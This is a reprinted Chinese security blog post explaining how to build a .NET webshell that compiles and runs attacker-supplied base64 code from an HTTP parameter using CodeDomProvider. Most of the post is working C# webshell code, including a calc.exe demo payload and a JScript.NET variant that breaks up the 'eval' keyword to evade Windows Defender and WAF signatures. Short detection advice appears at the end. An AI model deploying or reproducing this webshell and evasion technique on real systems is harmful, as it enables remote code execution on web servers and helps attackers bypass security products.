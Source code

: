 ```yaml
---
title: 基于.NET动态编译技术实现任意代码执行
slug: be-based-on-dotNet-dynamic-compilation-technology-to-realize-arbitrary-code-execution
description: .Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类
date: 2022-05-15 23:15:14
copyright: Reprinted
author: Ivan1ee dotNet安全矩阵
originalTitle: 基于.NET动态编译技术实现任意代码执行
originalLink: https://mp.weixin.qq.com/s/eZgnxEihQu-KULLeLJatCw
draft: False
cover: https://img1.dotnet9.com/2022/05/cover44.gif
categories: 
    - .NET
tags: 
    - 动态编译
---
```


![](https://img1.dotnet9.com/2022/05/cover44.gif)

## 一、前言

当下主流的 Waf 或 Windows Defender 等终端杀软、EDR 大多都是从特征码查杀，在.Net 和 VBS 下一句话木马中最常见的特征是 eval，对于攻击者来说需要避开这个系统关键字，可从反序列化方式避开 eval，但公开已久相信很多安全产品已经能够很好检测和阻断这类攻击请求。笔者从.NET 内置的 CodeDomProvider 类下手实现动态编译.NET 代码，指明 JScrip 或者 C#作为编译语言，编译的 WebShell 目前`Windows Defender不会查杀`。而防御者从流量或终端识别 "CodeDomProvider.CreateProvider、CreateInstance"等特征码。

## 二、动态编译

.Net 可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类`CodeDomProvider` 和 `CompilerParameters`，前者相当于编译器，后者相当于编译器参数，CodeDomProvider 支持多种语言（如 C#、VB、Jscript），编译器参数 CompilerParameters.GenerateExecutable 默认表示生成 dll，`GenerateInMemory= true`时表示在内存中加载，CompileAssemblyFromSource 表示程序集的数据源，再将编译产生的结果生成程序集供反射调用。最后通过 CreateInstance 实例化对象并反射调用自定义类中的方法。

```csharp
CodeDomProvider compiler = CodeDomProvider.CreateProvider("C#"); ;     //编译器
CompilerParameters comPara = new CompilerParameters();   //编译器参数
comPara.ReferencedAssemblies.Add("System.dll"); //添加引用
comPara.GenerateExecutable = false; //生成exe
comPara.GenerateInMemory = true; //内存中
CompilerResults compilerResults = compiler.CompileAssemblyFromSource(comPara, SourceText(txt)); //编译数据的来源
Assembly objAssembly = compilerResults.CompiledAssembly; //编译成程序集
object objInstance = objAssembly.CreateInstance("Neteye.NeteyeInput"); //创建对象
MethodInfo objMifo = objInstance.GetType().GetMethod("OutPut"); //反射调用方法
var result = objMifo.Invoke(objInstance, null);
```

## 三、落地实现

上述代码里的 SourceText 方法需提供编译的 C#源代码，笔者创建了 NeteyeInput 类，如下

```csharp
public static string SourceText(string txt)
{
    StringBuilder sb = new StringBuilder();
    sb.Append("using System;");
    sb.Append(Environment.NewLine);
    sb.Append("namespace  Neteye");
    sb.Append(Environment.NewLine);
    sb.Append("{");
    sb.Append(Environment.NewLine);
    sb.Append("    public class NeteyeInput");
    sb.Append(Environment.NewLine);
    sb.Append("    {");
    sb.Append(Environment.NewLine);
    sb.Append("        public void OutPut()");
    sb.Append(Environment.NewLine);
    sb.Append("        {");
    sb.Append(Environment.NewLine);
    sb.Append(Encoding.GetEncoding("UTF-8").GetString(Convert.FromBase64String(txt)));
    sb.Append(Environment.NewLine);
    sb.Append("        }");
    sb.Append(Environment.NewLine);
    sb.Append("    }");
    sb.Append(Environment.NewLine);
    sb.Append("}");
    string code = sb.ToString();
    return code;
}
```

类里声明了 OutPut 方法，该方法里通过 Base64 解码得到输入的原生字符串，笔者在这里以计算器作为演示，将`“System.Diagnostics.Process.Start("cmd.exe","/c calc");”`编码为

```shell
U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
```

最后在一般处理程序 ProcessRequest 方法中调用

```csharp
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    if (!string.IsNullOrEmpty(context.Request["txt"]))
    {
        DynamicCodeExecute(context.Request["txt"]); //start calc: U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
        context.Response.Write("Execute Status: Success!");
    }
    else
    {
        context.Response.Write("Just For Fun, Please Input txt!");
    }
}
```

![](https://img1.dotnet9.com/2022/05/4401.png)

## 四、其他方法

Jscript.Net 动态编译拆解 eval

在.NET 安全领域中一句话木马主流的都是交给 eval 关键词执行，而很多安全产品都会对此重点查杀，所以笔者需要`避开eval`，而在.NET 中 eval 只存在于 Jscript.Net，所以需要将动态编译器指定为 Jscript，其余和 C#版本的动态编译基本一致，笔者通过插入无关字符将 eval 拆解掉，代码如下

```csharp
private static readonly string _jscriptClassText =
        @"import System;
            class JScriptRun
            {
                public static function RunExp(expression : String) : String
                {
                    return e/*@Ivan1ee@*/v/*@Ivan1ee@*/a/*@Ivan1ee@*/l(expression);
                }
            }";
```

只需在编译的时候替换掉无关字符串“/_@Ivan1ee@_/”，最后编译后反射执行目标方法。

```csharp
CompilerResults results = compiler.CompileAssemblyFromSource(parameters, _jscriptClassText.Replace("/*@Ivan1ee@*/",""));
```

## 五、防御措施

- 一般 web 应用使用场景不多，检测特征码：CodeDomProvider.CreateProvider、CreateInstance 等等，一旦告警需格外关注；

- 由于编译生成的程序集以临时文件保存在硬盘，需加入对可写目录下 dll 文件内容的监控；

- 文章涉及的代码已经打包在: [https://github.com/Ivan1ee/.NETWebShell](https://github.com/Ivan1ee/.NETWebShell)
